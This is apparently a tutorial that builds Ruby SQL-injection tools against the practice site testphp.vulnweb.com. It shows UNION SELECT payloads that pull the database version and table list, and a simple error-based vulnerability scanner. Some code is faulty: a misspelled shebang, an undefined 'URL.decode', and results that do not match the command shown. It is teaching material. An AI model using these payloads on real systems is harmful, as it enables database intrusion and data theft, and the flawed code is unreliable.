 # SQL Injection Scanner


## Basic SQLi script as command line browser

The is a very basic script take your given payload and send it to the vulnerable parameter and returns the response back to you. I'll use (http://testphp.vulnweb.com/) as it's legal to test.

```ruby
#!/usr/bin/evn ruby
#
# Send your payload from command line
#
require "net/http"

if ARGV.size < 2
  puts "[+] ruby #{__FILE__} [IP ADDRESS] [PAYLOAD]"
  exit 0
else
  host, payload = ARGV
end

uri = URI.parse("http://#{host}/artists.php?")
uri.query = URI.encode_www_form({"artist" => "#{payload}"})
http = Net::HTTP.new(uri.host, uri.port)
# http.set_debug_output($stdout)

request = Net::HTTP::Get.new(uri.request_uri)
response = http.request(request)
# puts "[+] Status code: "+ response.code + "\n\n"
# puts response.body.gsub(/<.*?>/, '').strip
puts response.body.scan(/<h2 id='pageName'>.*<\/h2>/).join.gsub(/<.*?>/, '').strip

puts ""
```


> I've commented the line `puts response.body.gsub(/<.*?>/, '').strip` and added a custom RegEx to fix our target outputs.



Let's to test it in action

```
ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL,NULL#" | grep -i -e warning -e error
# => Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in /hj/var/www/artists.php on line 62

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,NULL,NULL#" | grep -i -e warning -e error
# => 

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,@@VERSION,NULL#"
# => artist: 5.1.73-0ubuntu0.10.04.1

ruby sqli-basic.rb "testphp.vulnweb.com" "-1 UNION ALL SELECT NULL,GROUP_CONCAT(table_name),NULL FROM information_schema.tables#" 
# => artist: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMN_PRIVILEGES,ENGINES,EVENTS,FILES,GLOBAL_STATUS,GLOBAL_VARIABLES,KEY_COLUMN_USAGE,PARTITIONS,PLUGINS,PROCESSLIST,PROFILING,REFERENTIAL_CONSTRAINTS,ROUTINES,SCHEMATA,SCHEMA_PRIVILEGES,SESSION_STATUS,SESSION_VARIABLES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVIL
```





Here a very basic and simple SQL-injection solid scanner, develop it as far as you can!

```ruby
#!/usr/bin/env ruby
#
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      "'",
      '"',
      "' or 1=2--+"
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occured = vulnerable
puts "[+] The #{URL.decode(uri.to_s)} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil?

```

Try this url (http://testasp.vulnweb.com/showforum.asp?id=0)

Results
```
ruby sqli.rb http://testasp.vulnweb.com/showforum.asp?id=0
[+] The http://testphp.vulnweb.com/artists.php?artist=1' is vulnerable!
```
